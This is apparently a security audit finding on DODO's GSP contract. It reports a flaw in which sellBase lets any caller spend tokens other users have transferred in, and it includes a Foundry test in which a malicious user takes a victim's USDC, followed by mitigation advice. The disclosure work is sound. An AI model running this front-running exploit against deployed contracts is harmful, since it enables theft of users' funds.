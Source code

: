 Future Clear Monkey

high

# Vulnerability in GSPTrading.sol's sellBase Function Leading to Unauthorized Token Expenditure(Race Condition / Front-running attack)

dian.ivanov

high

## Summary
The current implementation of GSPTrading's sellBase allows any user to call buyShares and utilize the tokens already transferred by others. https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L42

## Vulnerability Detail
The vulnerability arises because the sellBase function uses the contract's current token balance, deducting the last updated reserves, without verifying token ownership. Users transfer tokens to the contract and then call sellBase, expecting it to use only their tokens. However, if multiple users transfer tokens, the first one to call sellBase could use all these tokens, resulting in financial losses for the others.

## Impact
This vulnerability can lead to unauthorized use of tokens, where one user can effectively spend tokens transferred by others. Potentially leading to financial losses for users.

## Code Snippet
Include this test to GSPFunding.t.sol, it demonstrates how a malicious user can front-run
or just buy shares of another use who forgot to buy his shares or use the transferred tokens
anyhow, the test will pass, but it shouldn't:

```solidity
    function test_maliciousUserSellsBaseInsteadOfUser() public {
        address MALICIOUS_USER = vm.addr(123);
        // buy shares
        vm.startPrank(DAI_WHALE);
        dai.transfer(USER, (BASE_RESERVE + BASE_INPUT));
        vm.stopPrank();
        vm.startPrank(USDC_WHALE);
        usdc.transfer(USER, QUOTE_RESERVE);
        vm.stopPrank();
        vm.startPrank(USER);
        dai.transfer(address(gsp), BASE_RESERVE);
        usdc.transfer(address(gsp), QUOTE_RESERVE);
        vm.stopPrank();

        //buy shares
        vm.startPrank(USER);
        gsp.buyShares(USER);
        vm.stopPrank();

        //sellbase
        vm.startPrank(USER);
        dai.transfer(address(gsp), BASE_INPUT);
        vm.stopPrank();

        //Malicious user sells user's money
        vm.startPrank(MALICIOUS_USER);
        assertEq(usdc.balanceOf(MALICIOUS_USER), 0);
        console.log("hacker before: ", usdc.balanceOf(MALICIOUS_USER));
        gsp.sellBase(MALICIOUS_USER);
        assertEq(usdc.balanceOf(MALICIOUS_USER), 999935);
        console.log("hacker after: ", usdc.balanceOf(MALICIOUS_USER));
        vm.stopPrank();

        //The user who initially transferred the tokens and bought the shares is not able to sellBase
        vm.startPrank(USER);
        uint256 usdcBalanceBefore = usdc.balanceOf(USER);
        console.log("USERbefore: ", usdc.balanceOf(USER));
        gsp.sellBase(USER);
        console.log("USERafter: ", usdc.balanceOf(USER));
        assertEq(usdc.balanceOf(USER), usdcBalanceBefore);
        vm.stopPrank();
    }
```
## Tool used

Manual Review

## Recommendation
To mitigate this risk, the contract can use a permit or approvals mechanism, paired with the transferFrom method. This approach would enable the contract to securely pull tokens from a user's account and execute sellBase in a single, atomic operation. Another approach could be using mappings with everyone's transfered amounts for the base and quote tokens and checks if they are sufficient.